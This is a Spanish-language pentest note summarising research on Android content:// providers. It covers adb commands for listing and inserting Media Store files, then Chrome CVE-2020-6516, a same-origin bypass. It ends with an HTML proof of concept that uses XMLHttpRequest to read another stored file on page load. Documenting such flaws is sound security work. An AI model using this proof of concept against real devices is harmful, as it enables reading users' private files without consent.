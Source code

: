 ```yaml
---
title: content:// protocol
date: 2024-11-25
category: ['pentest mobile', 'android']
tags: []
summary: content:// protocol
---
```


Este es un resumen de la publicación https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/

Listando Archivos en Media Store
Para listar archivos gestionados por Media Store, se puede usar el siguiente comando:

```html
$ content query --uri content://media/external/file
```

Para una salida más amigable para el usuario, mostrando solo el identificador y la ruta de cada archivo indexado:

```html
$ content query --uri content://media/external/file --projection _id,_data
```

Los proveedores de contenido están aislados en su propio espacio de nombres privado. El acceso a un proveedor requiere la URI específica content://. La información sobre las rutas para acceder a un proveedor se puede obtener de los manifiestos de la aplicación o del código fuente del marco de Android.

Acceso de Chrome a Proveedores de Contenido
Chrome en Android puede acceder a proveedores de contenido a través del esquema content://, lo que le permite acceder a recursos como fotos o documentos exportados por aplicaciones de terceros. Para ilustrar esto, se puede insertar un archivo en el Media Store y luego acceder a él a través de Chrome:

Inserte una entrada personalizada en el Media Store:

```html
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
Descubre el identificador del archivo recién insertado:
```

```html
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```

El archivo se puede ver en Chrome utilizando una URL construida con el identificador del archivo.

Por ejemplo, para listar archivos relacionados con una aplicación específica:

```html
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```

Chrome CVE-2020-6516: Bypass de la Política de Mismo Origen
La Política de Mismo Origen (SOP) es un protocolo de seguridad en los navegadores que restringe a las páginas web de interactuar con recursos de diferentes orígenes a menos que se permita explícitamente mediante una política de Compartición de Recursos de Origen Cruzado (CORS). Esta política tiene como objetivo prevenir filtraciones de información y falsificación de solicitudes entre sitios. Chrome considera content:// como un esquema local, lo que implica reglas SOP más estrictas, donde cada URL de esquema local se trata como un origen separado.

Sin embargo, CVE-2020-6516 fue una vulnerabilidad en Chrome que permitió eludir las reglas SOP para recursos cargados a través de una URL content://. En efecto, el código JavaScript de una URL content:// podía acceder a otros recursos cargados a través de URLs content://, lo que representaba una preocupación de seguridad significativa, especialmente en dispositivos Android que ejecutaban versiones anteriores a Android 10, donde el almacenamiento con alcance no estaba implementado.

La prueba de concepto a continuación demuestra esta vulnerabilidad, donde un documento HTML, después de ser subido bajo /sdcard y agregado a la Media Store, utiliza XMLHttpRequest en su JavaScript para acceder y mostrar el contenido de otro archivo en la Media Store, eludiendo las reglas SOP.

Prueba de Concepto HTML:

```html
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```
